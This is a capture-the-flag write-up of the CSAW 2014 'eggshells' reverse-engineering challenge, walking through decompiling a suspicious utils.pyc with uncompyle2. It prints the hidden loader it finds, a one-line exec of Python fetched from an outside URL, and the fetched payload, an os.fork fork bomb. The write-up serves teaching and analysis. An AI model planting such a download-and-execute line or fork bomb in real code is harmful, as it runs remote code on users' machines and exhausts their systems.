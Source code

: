 Title:  CSAW CTF 2014 - Reverse Engineering 100: "eggshells"
Date: 2014-09-22 9:20
Category: Reverse Engineering
Tags: CTF, CSAW, uncompyle2



This is the first exploitation problem and it starts with the following text:

> I trust people on the Internet all the time, do you?
>
> Written by ColdHeat
>
> eggshells-master.zip



## Unzipping and Analyzing the Files

Let’s unzip the provided zip file:

```sh
$ unzip eggshells-master.zip
```

This creates a directory called *eggshells-master* that contains several *Python* and *exe* files. Let us look closer to the contend of this folder:

```sh
$ tree .
├── capstone.py
├── distorm.py
├── interpreter.py
├── main.py
├── nasm
│   ├── LICENSE
│   ├── nasm.exe
│   ├── ndisasm.exe
│   └── rdoff
│       ├── ldrdf.exe
│       ├── rdf2bin.exe
│       ├── rdf2com.exe
│       ├── rdf2ihx.exe
│       ├── rdf2ith.exe
│       ├── rdf2srec.exe
│       ├── rdfdump.exe
│       ├── rdflib.exe
│       └── rdx.exe
├── nasm.py
├── server.py
├── shellcode.py
├── utils.pyc
└── wrapper.py
```

Do you see anything unusual?


## Decompiled a pre-compiled Python File

A pre-compiled Python file stands out in this list: *utils.pyc*. We need to decompile it. For this task we use  [uncompyle2], which can be installed with:

```sh
$ sudo pip install uncompyle2
```

Let's learn a bit more about this tool with ```uncompyle2 --help```. The usage is straightforward, but it's a good knowledge to learn about the *-o* flag, which will decompile to a *.dis* file instead of *stdout*:

```sh
Usage: uncompyle2 [OPTIONS]... [ FILE | DIR]...

Examples:
  uncompyle2      foo.pyc bar.pyc       # decompile foo.pyc, bar.pyc to stdout
  uncompyle2 -o . foo.pyc bar.pyc       # decompile to ./foo.dis and ./bar.dis
  uncompyle2 -o /tmp /usr/lib/python1.5 # decompile whole library

Options:
  -o <path>     output decompiled files to this path:
                if multiple input files are decompiled, the common prefix
                is stripped from these names and the remainder appended to
                <path>
                  uncompyle -o /tmp bla/fasel.pyc bla/foo.pyc
                    -> /tmp/fasel.dis, /tmp/foo.dis
                  uncompyle -o /tmp bla/fasel.pyc bar/foo.pyc
                    -> /tmp/bla/fasel.dis, /tmp/bar/foo.dis
```

We could also use *.py* extension if we like:
```sh
  --py          use '.py' extension for generated files
```

Also, we learn about all the possible outputs:
```sh
 Extensions of generated files:
  '.pyc_dis' '.pyo_dis'   successfully decompiled (and verified if --verify)
  '.py'                   with --py option
    + '_unverified'       successfully decompile but --verify failed
    + '_failed'           uncompyle failed (contact author for enhancement)
```

All right, no more diverging. Let's play! We run the ```uncompyle2``` command and obtain the following:
```sh
$ uncompyle2 utils.pyc
#Embedded file name: /Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.py
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
+++ okay decompyling utils.pyc
# decompiled 1 files: 1 okay, 0 failed, 0 verify failed
```


## Parsing the Result and Voilà

So all that this file does is in this line:
```python
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
```

To understand this code, we need to know that Python's [exec] method performs dynamic execution of code.  In this problem, *exec* starts importing [urllib2], which is a library for opening URLs.  It has the method [urlopen()] to open the URL url, which can be either a string or a request object. This function returns a file-like object with three additional methods. Finally, [read()] would read this returned file.

So all that this script does is to try running a Python file that is hosted online!
Well, let's see what this file does! Let's just *curl* [http://kchung.co/lol.py]:

```sh
$  curl http://kchung.co/lol.py
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

Yaaay! The flag is **trust_is_risky**! Easy!

**Hack all the things!**


[uncompyle2]: https://github.com/gstarnberger/uncompyle
[http://kchung.co/lol.py]: http://kchung.co/lol.py
[exec]: https://docs.python.org/2/reference/simple_stmts.html#exec
[urllib2]: https://docs.python.org/2/library/urllib2.html#module-urllib2
[urlopen()]: https://docs.python.org/2/library/urllib2.html#urllib2.urlopen
[read()]: http://www.tutorialspoint.com/python/file_read.htm



----

**Aloha, bt3**